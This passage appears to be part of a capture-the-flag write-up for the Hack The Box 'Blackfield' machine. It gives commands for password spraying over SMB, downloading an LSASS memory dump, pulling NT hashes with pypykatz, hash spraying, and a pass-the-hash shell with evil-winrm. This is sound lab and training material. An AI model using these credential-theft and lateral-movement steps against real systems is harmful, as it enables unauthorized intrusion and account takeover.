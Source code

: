 ## Password Spray
```sh
nxc smb 10.10.10.192 -u audit2020 -p 'H@CKTHEB0X#' --shares
```

![[/assets/images/blackfield7.png]]

![[/assets/images/blackfield8.png]]

# Exploitation
# Foothold 
## LSASS
We connect to the forensic share and see a zipped lsass memory dump. LSASS is short for Local Security Authority Subsystem Service, and it stores credentials in memory on behalf of a user that has an active (or recently active) session. 

This allows the user to access network resources without re-typing their credentials for each service. LSASS may store credentials in multiple
forms, including reversibly encrypted password, Kerberos tickets, NT hash, LM hash, DPAPI keys,and Smartcard PIN.

So we download the lsass process memory dump locally for further inspection.

```sh
smbclient.py audit2020:'H@CKTHEB0X#'@10.10.10.192
use forensic
cd memory_analysis
ls
get lsass.zip
exit
```

![[/assets/images/blackfield9.png]]
### Retrieve NT Hashes
After unzipping lsass.zip we can use [Pypykatz](https://github.com/skelsec/pypykatz) on the extracted lsass.DMP file to retrieve NT hashes.

```sh
pipx install pypykatz
pypykatz lsa minidump lsass.DMP
```

![[/assets/images/blackfield10.png]]

![[/assets/images/blackfield11.png]]
### Hash Spray
```sh
nxc smb 10.10.10.192 -u usernames.txt -H hashes
```
## Foothold
```sh
evil-winrm -i 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
```
